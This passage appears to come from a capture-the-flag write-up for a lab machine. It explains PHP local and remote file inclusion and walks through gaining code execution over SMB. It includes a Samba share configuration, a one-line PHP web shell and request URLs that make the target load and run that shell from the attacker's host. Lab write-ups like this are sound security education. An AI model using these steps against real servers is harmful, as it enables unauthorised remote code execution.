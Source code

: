 A local file inclusion (LFI) vuln allows users to `include` (and therefore eval/run) other executable files on the filesystem of the vulnerable server. Remote file inclusion (RFI) takes it a step further,
allowing users to serve their own executable files from a remote host, and have them executed on the remote server via the `include` statement. Some webapp configurations can mean that the 'remote' include
is disbaled, so that only LFI is possible. Other times, the much safer `readfile()` function will be used instead of `include`, meaning a webapp isn't vulnerable to file inclusion at all. 

For this reason I always like to test for LFI first, and if successful, then try for RFI. While poking around before, I could see that a custom 404 page was being served if I requested a resource that didn't exist - using the help of a file on the server at **/blog/js/error.js**. This seemed like
a good target to try and confirm LFI before testing for RFI The image below shows that it worked! The code wasn't executed because it isn't valid PHP.

![Image](/assets/img/sniper/sniper_web_enum_3.png)

## Web Exploitation

With this information I was able to start testing for RFI and had no luck at all trying to include remote files via HTTP. To do this I ran the python module `SimpleHTTPServer` on my kali machine and tried connecting to it with variations of the following:
`http://10.10.10.151/blog/?lang=http://10.10.14.8/test.php`. Next I tried SMB and had success! I used [Impacket's](https://github.com/SecureAuthCorp/impacket) `smbserver.py` on kali and had remote machine to connect to my share.

![Image](/assets/img/sniper/sniper_web_exploit_1.png)

Unfortunately I wasn't able to fix the error with smbserver.py "Handle: [Error 104] Connection reset by peer", and was never able to successfully serve a php file this way (if anyone knows what's going on here please let me know). So instead I resorted to creating my own SMB share and configuring
`smbd` to serve up my payload. Below are the steps for exploitation.

1. Modify `/etc/samba/smb.conf` as follows to set up a guest accessible share out of /tmp
```
[share]
path = /tmp
writeable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
``` 
2. Write a PHP payload to /tmp - I went for something nice and simple: `<?php echo(shell_exec($_GET['cmd'])); >?
3. Start the smb service: `service smbd start`
4. Make the HTTP GET request: `http://10.10.10.151/blog/?lang=\\10.10.14.8\share\shell.php&cmd=ipconfig`

![Image](/assets/img/sniper/sniper_web_exploit_2.png)

And now I've confirmed that I can execute code on the server!
